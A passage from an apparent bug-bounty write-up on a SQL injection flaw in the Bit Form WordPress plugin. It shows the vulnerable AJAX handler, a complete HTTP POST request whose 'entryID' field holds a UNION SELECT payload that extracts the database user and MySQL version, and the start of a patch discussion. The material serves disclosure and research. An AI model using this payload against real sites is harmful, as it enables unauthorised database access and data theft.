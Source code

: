 Which is again used by class `AdminAjax` method `getLogHistory` and AJAX action `bitforms_form_log_history`:

```php
class AdminAjax
{
  public function register()
  {
    [...]
    add_action('wp_ajax_bitforms_form_log_history', [$this, 'getLogHistory']);
    [...]
  }
  public function getLogHistory()
  {
    if (wp_verify_nonce(sanitize_text_field($_REQUEST['_ajax_nonce']), 'bitforms_save')) {
      $inputJSON = file_get_contents('php://input');
      $input = json_decode($inputJSON);
      $formHandler = FormHandler::getInstance();
      $status = $formHandler->admin->getLogHistory($_REQUEST, $input);
      [...]
    } else {
      [...]
    }
  }
```

Therefore, AJAX action `bitforms_form_log_history` is vulnerable to SQL injection.

Let's try that!

Since we already created a form in the previous vulnerability demonstration, we can send the following POST request to exploit the SQL injection vulnerability:

```http
POST /wp-admin/admin-ajax.php?action=bitforms_form_log_history&_ajax_nonce=780bef0a26 HTTP/1.1
Host: localhost
Content-Type: text/plain;charset=UTF-8
Content-Length: 151
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7C58c18d2f8b6415954d2a339d57d57b3c1fe7bc913f22130d5780f0d2a85c49f9; wp-settings-time-1=1724390118; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=wordpress%7C1724553914%7C9pNaCWccoYSDyYoiSO4e07YnorNyXoFaKEF0H5QnZkX%7Cf943227a153b21afbc65dbd93c78032c2ad0055a49af9c5fedf5d1281404dbd7

{"formID":"1","entryID":"0 UNION SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,concat('Database user: ', user()),concat('MySQL version: ', @@version)-- -"}
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bug-Bounty/Wordfence/how-i-found-my-first-vulnerabilities-in-6-different-wordpress-plugins-part-1/images/Pasted%20image%2020240823133713.png)

Nice! It worked!

### The Patch

Again, to fix this vulnerability, the vendor could correct the misused `execute` method or validate the `formID` and `entryID` must be an integer. We can view version 2.13.10 [revision log](https://plugins.trac.wordpress.org/changeset?sfp_email=&sfph_mail=&reponame=&new=3136079%40bit-form%2Ftrunk&old=3133646%40bit-form%2Ftrunk&sfp_email=&sfph_mail=) for the implementation of the patch:
